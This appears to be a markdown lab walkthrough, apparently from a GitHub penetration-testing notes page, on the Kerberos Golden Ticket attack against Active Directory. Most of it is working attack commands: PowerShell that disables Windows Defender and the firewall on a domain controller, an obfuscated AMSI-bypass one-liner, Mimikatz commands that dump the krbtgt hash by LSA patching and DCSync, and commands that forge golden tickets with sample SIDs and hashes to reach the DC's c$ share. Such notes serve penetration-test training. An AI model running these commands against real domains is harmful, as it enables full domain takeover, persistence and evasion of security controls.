 # Golden Ticket Attack Overview

Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service. The attacker gains control over the domain’s Key Distribution Service account (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (TGTs) for any account in the Active Directory domain. With valid TGTs, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS).

Because the attacker controls the component of the access control system responsible for issuing TGTs, they have the golden ticket to access any resource on the domain. This is a persistent attack, not merely privilege escalation. It assumes domain admin rights, as this is necessary for the attack to succeed.

## Prerequisites
```powershell
. .\Powerview.ps1
Get-DomainUser -SamAccountName Administrator
```

### Do Over the Pass Hash with a User with Access to the DC

### Execute Mimikatz on DC as Domain Admin to Get KRBTGT Hash
```powershell
$sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local

# Disable Firewall and AV
Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -Session $sess
Invoke-Command -Session $sess -FilePath c:\AD\Tools\Invoke-mimikatz.ps1

# Enter Session
Enter-PSSession $sess

# Bypass AMSI
powershell -ep bypass
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Get all the hashes including the important krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
![image](https://github.com/user-attachments/assets/fb84673c-9338-4643-811f-03ef7e92b093)

![image](https://github.com/user-attachments/assets/49537006-f49b-46f7-b990-7ef1aa7cbd83)

### Another Way to Get KRBTGT Hash Silently

The DCSync is a Mimikatz feature that tries to impersonate a domain controller and request account password information from the targeted domain controller. This technique is less noisy as it doesn’t require direct access to the domain controller or retrieving the NTDS.DIT file over the network.
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:pentesting\krbtgt"'
```
![image](https://github.com/user-attachments/assets/ff65f1fb-5162-46b1-bbb2-fc01f543cd46)

## Golden Ticket Attack Execution

With the KRBTGT hash, perform the Golden Ticket attack from any machine.
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:513 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
klist
ls \\dcorp-dc\c$
cd \\dcorp-dc\c$
```
![image](https://github.com/user-attachments/assets/9c9a681e-cd4d-411f-b029-4313bda7d6e9)

![image](https://github.com/user-attachments/assets/550fc38d-85f8-440f-b3b6-1ffdc3b5ee05)

![image](https://github.com/user-attachments/assets/83ee0a15-71a9-4e45-ab49-a39a62de0f28)

![image](https://github.com/user-attachments/assets/70ef17df-a269-469b-ab5a-00e30fff061c)

## Persistence and Privilege Escalation with Golden Kerberos Tickets

This lab explores an attack on Active Directory Kerberos Authentication. Specifically, it focuses on an attack that forges Kerberos Ticket Granting Tickets (TGTs) used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service (TGS) tickets, meaning a forged TGT can get any TGS ticket.

### Execution
#### Extracting the krbtgt Account's Password NTLM Hash
```powershell
mimikatz# lsadump::lsa/inject /name:krbtgt
```
![image](https://github.com/user-attachments/assets/b53c68e4-a9e6-4f71-b841-398db63df276)

#### Creating a Forged Golden Ticket
```powershell
mimikatz# kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```

### Observations

#### Checking if the Ticket Got Created

Open another PowerShell console with a low-privileged account and try to mount a c$ share of pc-mantvydas and dc-mantvydas. If access is denied, switch back to the console used to create the Golden Ticket (local admin) and attempt to access the c$ share of the domain controller again. This time, it should succeed.

## References
- [Complete Domain Compromise with Golden Tickets](https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/)
- [ADSecurity: Golden Tickets](https://adsecurity.org/?p=1515)
```
